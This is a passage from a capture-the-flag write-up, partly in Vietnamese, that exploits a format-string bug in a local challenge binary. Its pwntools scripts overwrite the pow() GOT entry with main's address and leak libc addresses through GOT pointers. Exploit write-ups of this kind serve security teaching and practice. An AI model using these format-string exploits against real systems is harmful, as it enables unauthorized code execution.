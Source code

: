 
```python
from pwn import *

binary = ELF("chall")
r = process("./chall")
gdb.attach(r, api = True)

pow_got = binary.got['pow']
main_addr = binary.symbols['main']

log.info(f"Main address: {hex(main_addr)}") # 0x400837
log.info(f"pow() GOT address: {hex(pow_got)}") # 0x601040


payload1 = b"11111111" + p64(pow_got) #+ p64(pow_got+4)

r.sendlineafter(b"A: ",payload1)

#payload2 = b"1_______%1p%11$n--------"
payload2 = b"1_______%" + str(int(main_addr) - 46).encode("ascii") + b"p%11$n--" #4196361

r.sendlineafter(b"B: ",payload2)

r.interactive()

```

Vấn đề tại sao lại trừ 46 í, thì là do cơ chế ghi với formatstring là sẽ in ra màn hình 15 kí tự đi ha rồi sẽ ghi giá trị hex(15) vào địa chỉ ở tham số chỉ định. mà trước đó đã in ra "blabla" tổng 46 kí tự rồi nên giờ phải trừ ra.

Thêm vấn đề là tại sao là tham số thứ 11 thì, chuỗi mình ghi vào sẽ bắt đầu ở tham số thứ 10, cứ check là được :))


### leak libc base, and determine libc version

```python
from pwn import *

binary = ELF("chall")
r = process("./chall")
gdb.attach(r, api = True)

def send_payload(r, a, b):
    log.info(f"Sending:\nA:\n{a}\nB:\n{hexdump(b)}")
    r.sendlineafter("A: ", a)
    r.sendlineafter("B: ", b)

def send_format(r, format, values):
    format_prefix = b'1_______'
    values_prefix = b'1_______'
    send_payload(r, format_prefix + format, values_prefix + values)
    out = r.recvline()
    arr = out.split(b" and ")
    res = arr[0].replace(b"Calculating for A: " + format_prefix, b"")
    log.info(f"Received:\n{hexdump(res)}")
    return res

log.info(f"puts() GOT address: {hex(binary.got['puts'])}")

output = send_format(r, b"%43$s.%44$s.%45$s.", p64(binary.got["puts"]) + p64(binary.got["atoi"])+ p64(binary.got["strcspn"]))

print(output)
```